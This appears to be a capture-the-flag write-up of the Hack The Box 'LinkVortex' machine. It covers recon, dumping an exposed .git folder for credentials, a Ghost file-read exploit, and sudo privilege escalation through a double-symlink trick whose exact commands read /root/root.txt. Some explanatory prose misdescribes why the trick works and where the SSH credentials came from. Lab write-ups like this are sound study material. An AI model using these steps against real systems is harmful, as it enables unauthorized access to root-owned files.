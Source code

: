# LinkVoretx HTB Machine (Linux)

# nmap

Results:

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add IP address and domain to /etc/hosts

# http

From the footer we can see that is powered by ghost cms

Without gobuster and trying to figure what version of ghost they are using I went over to the **/ghost** directory.
Prompted to me to login; tried the basic login but did not work and the forgot button also does not work.

`whatweb linkvortex.htb`
Results: 

http://linkvortex.htb [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[10.10.11.47], JQuery[3.5.1], MetaGenerator[Ghost 5.58], Open-Graph-Protocol[website], PoweredBy[Ghost,a], Script[application/ld+json], Title[BitByBit Hardware], X-Powered-By[Express], X-UA-Compatible[IE=edge]
Shows that Ghost is using version 5.58; so all the exploits that I have seen thus far have been patched. 

# ffuf

`ffuf -u http://linkvortex.htb -H "HOST:FUZZ.linkvortex.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -ac`
Results:

dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 85ms]

Alright, so we've got that subdomain locked in, right? Cool. Now, we're just gonna take a casual stroll through its directories at `http://dev.linkvortex.htb`. Think of it like poking around a bit, seeing what's lying around. Sometimes, you find those hidden gems, you know? Like config files or maybe even a repo or two. Basically, we're just trying to get a better feel for what's going on under the hood.
`ffuf -u http://dev.linkvortex.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
Results:

.htaccess               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 84ms]
.htpasswd               [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 84ms]
.git/HEAD               [Status: 200, Size: 41, Words: 1, Lines: 2, Duration: 86ms]
.git                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 86ms]
.hta                    [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 87ms]
.git/config             [Status: 200, Size: 201, Words: 14, Lines: 9, Duration: 87ms]
.git/logs/              [Status: 200, Size: 868, Words: 59, Lines: 16, Duration: 87ms]
.git/index              [Status: 200, Size: 707577, Words: 2171, Lines: 2172, Duration: 87ms]
cgi-bin/                [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 78ms]
index.html              [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 88ms]
server-status           [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 80ms]


# Git leak
GitHack is a **.git** folder disclosure exploit.
`python GitHack.py http://dev.linkvortex.htb/.git/`

Soon as I saw File not found dumps and ctrl c and started looking for interesting files. 
I also saw that it dumped **/ghost** files. I soon remembered that login poge were I was at earlier.
Started to look for any interesting files while keeping that in mind and also for any **api** files.

`ghost/core/test/regression/api/admin/authentication.test.js` and also a Dockerfile. 
This was dumped directory given to us from the tool GitHack. 
If we read the files we find important hardcoded credentials.

# Exploit 
Remember that the Ghost version is 5.58 and I did not find any exploit but I also did not look deeply then.
Since logging in with the credentials did not give us much I like to think that there is an exploit out there.

With a new simple Google search (ghost cms exploit 5.58 github) we found the right one to use. 

Once I was able to perform an arbitrary file read of any file on the host operating system.
I grabbed the Copy config from the **Dockerfile.ghost** that I found earlier.

```
cat Dockerfile.ghost 
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

```

Pasting that gave username and password that we can use to login using SSH.

# SSH
Once logging in we can get the user flag right away. 

I always check for other files, directories, users etc.. but before that I always like to check for the user's permission. 

`sudo -l`
Results:

```
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

I used `cat` to see what is inside the file. 
Results:

```
bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```
This script, clean_symlink.sh, is a security tool that performs operations on [symbolic links (symlinks)](https://github.com/mksiki/notes/blob/main/symlink.md) in a Linux system, specifically those involving .png files.

In this scenario, the script successfully moved the symlink huh.png (which pointed to /root/root.txt) to quarantine because it detected the target as being from the /root directory, which is sensitive.

```
bob@linkvortex:~$ ln -s /root/root.txt huh.txt
bob@linkvortex:~$ ln -s /home/bob/huh.txt huh.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/huh.png
Link found [ /home/bob/huh.png ] , moving it to quarantine
Content:

```

PWNED!

# Summary 

This CTF involved multiple stages, with key exploitation techniques relying on **Ghost CMS**, weak **user permissions**, and a **symlink vulnerability**:

1. **Ghost CMS Version 5.58**: While the version was known and patched against certain exploits, it was the **GitHack** tool that helped uncover hardcoded credentials inside the **.git** folder, specifically in files like `ghost/core/test/regression/api/admin/authentication.test.js`. These credentials provided SSH access to the system.

2. **Git Folder Disclosure**: Accessing `.git/` revealed sensitive files, including **Dockerfile** and **config.production.json**, which exposed useful information about the application and system. This was key in moving forward with the attack.

3. **SSH Access**: After logging in via SSH as the user `bob`, the attacker used `sudo -l` to identify a critical misconfiguration. The user had **NOPASSWD** access to run a specific script (`/opt/ghost/clean_symlink.sh`) that handled symbolic links, which was a major weak point.

4. **Symlink Vulnerability**: The script was designed to handle `.png` files, moving symlinked files pointing to sensitive locations into quarantine. By leveraging this misconfiguration, the attacker created a symlink to **/root/root.txt** and successfully read its contents by exploiting the script's ability to process symlinks.

**Critical Takeaways**:
- **Git folder disclosure**: This is a powerful attack vector, especially when accessing repositories or test directories that may contain sensitive data like credentials.
- **Misconfigured sudo permissions**: Even non-root users can escalate privileges if they have NOPASSWD access to critical scripts. Always ensure that sudo permissions are tightly controlled and reviewed.
- **Symlink handling**: Misconfigured scripts or services that process symlinks can be used to gain access to sensitive files, especially if there is a lack of validation for file paths or symlink targets.

